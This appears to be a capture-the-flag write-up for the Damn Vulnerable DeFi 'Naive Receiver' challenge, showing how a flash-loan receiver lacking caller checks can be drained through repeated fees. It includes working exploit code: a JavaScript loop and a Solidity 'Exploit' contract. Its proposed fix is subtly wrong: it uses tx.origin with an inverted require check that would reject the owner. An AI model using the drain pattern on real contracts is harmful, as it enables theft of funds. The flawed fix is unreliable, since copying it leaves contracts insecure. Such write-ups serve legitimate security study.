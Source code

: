 ## What is our mission
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br/>

## What are the smart contracts 
- **`NaiveReceiverLenderPool.sol`**: smart contract that includes **`flashLoan(...)`** function
- **`FlashLoanReceiver.sol`**: smart contract that includes **`onFlashLoan(...)`** function

<br/>


## Solution 

**1.** **`NaiveReceiverLenderPool.sol`** contract's **`flashLoan(...)`** function
``` solidity
// NaiveReceiverLenderPool.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```


**2.** **`FlashLoanReceiver.sol`** contract's **`onFlashLoan(...)`** function
``` solidity
// FlashLoanReceiver.sol

function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

**3.** The vulnarability cames from,  **`FlashLoanReceiver.sol`** contract.

**`onFlashLoan(...)`** function is triggered from `NaiveReceiverLenderPool.sol` when **`flashLoan(...)`** is called.



⚠️ But **`onFlashLoan(...)`** function doesn't check Who has called **`flashLoan(...)`** function.

This means anybody who call **`flashLoan(...)`** function can pass  **`FlashLoanReceiver.sol`** contract as a `receiver` paremether to **`flashLoan(...)`** function. This will trigger **`onFlashLoan(...)`** function inside **`FlashLoanReceiver.sol`**.

And **`FlashLoanReceiver`** will pay transection fee until be out of money. 😥😥😥

<br/>

Here how you can do it

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        const ETH = await pool.ETH();
        
        for (let i = 0; i < 10; i++) 
        {    
            await pool.flashLoan(receiver.address, ETH, ETHER_IN_POOL, "0x");   
        }        
    });
```
As you can see, we have send 10 transection. But if you want to do this challenge **in single transection**, you will need to code smart contract.

<br/><br/>


To solve this, create a new file in side **`contracts/naive-receiver`** called **`NaiveReceiver_SolutionCode.sol`** 

``` solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract NaiveReceiver_SolutionCode
{
    // Constant variables
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant Amount = 1 ether; 

    // Immutable variables
    IERC3156FlashLender private immutable pool;
    IERC3156FlashBorrower private immutable receiver;

    // constructor
    constructor(address _pool, address _receiver) 
    {
        pool = IERC3156FlashLender(_pool);
        receiver = IERC3156FlashBorrower(_receiver);
    }

    
    function Exploit() external
    {
        for (uint i = 0; i < 10; i++) 
        {
            pool.flashLoan(receiver, ETH, Amount, "0x");    
        }
    }
}
```
Your contracts will be compiled, when you run the test.

<br/>

Then you can go to test file and use this code: 

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        //Location of your compiled contract data. If you are fallowing this solition, copy bellow
        const compiled_data = require("../../artifacts/contracts/naive-receiver/NaiveReceiver_SolutionCode.sol/NaiveReceiver_SolutionCode.json");

        const abi = compiled_data.abi;
        const bytecode = compiled_data.bytecode;
    
        const factory = new ethers.ContractFactory(abi, bytecode, deployer);

        const NaiveReceiver_SolutionCode = await factory.deploy(pool.address, receiver.address)

        await NaiveReceiver_SolutionCode.Exploit();
    });
```



<br/>

## How could this exploit be prevented ?
We want the **sender of the transection** to be equal to **users address**.

first we have to create new variable inside **`FlashLoanReceiver.sol`** contract named **`owner`**

``` solidity
address private owner;

// Modify the constructor
constructor(address _pool, address _owner) {
        pool = _pool;
        owner = _owner;
    }
```
Than inside **`FlashLoanReceiver.sol`** contract's **`onFlashLoan(...)`** function we will require **`tx.origin`** to be equal to **`owner`**.

``` solidity
function onFlashLoan(...) external returns (bytes32) {

        require(tx.origin != owner, "Wrong sender");

        /...
        /...
        /...
    }
```

<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #2**](https://www.damnvulnerabledefi.xyz/challenges/2.html). Clone the repository as mentioned and,

put [**basic solution code**](Basic.Solution.md) to his place 

/or

put [**single transection solution code**](Single.Transection.Solution.md) to his place

Then you can just type **`npm run naive-receiver`** 
